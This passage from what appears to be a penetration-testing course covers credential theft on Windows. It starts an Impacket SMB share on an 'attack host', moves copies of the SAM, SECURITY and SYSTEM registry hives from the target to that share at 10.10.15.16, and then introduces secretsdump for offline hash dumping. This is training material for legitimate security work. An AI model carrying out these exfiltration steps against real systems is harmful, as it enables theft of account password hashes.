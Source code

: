 To create the share, we simply run `smbserver.py -smb2support`, specify a name for the share (e.g., `CompData`), and point to the local directory on our attack host where the hive copies will be stored (e.g., `/home/ltnbob/Documents`). The `-smb2support` flag ensures compatibility with newer versions of SMB. If we do not include this flag, newer Windows systems may fail to connect to the share, as SMBv1 is disabled by default due to [numerous severe vulnerabilities](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1) and publicly available exploits.

```shell-session
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Once the share is running on our attack host, we can use the `move` command on the Windows target to transfer the hive copies to the share.

### **Moving hive copies to share**

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

We can then confirm that our hive copies were successfully moved to the share by navigating to the shared directory on our attack host and using `ls` to list the files.

```shell-session
$ ls

sam.save  security.save  system.save
```

## Dumping hashes with secretsdump

One particularly useful tool for dumping hashes offline is Impacket's `secretsdump`. Impacket is included in most modern penetration testing distributions. To check if it is installed on a Linux based system, we can use the `locate` command:

```shell-session
$ locate secretsdump 
```

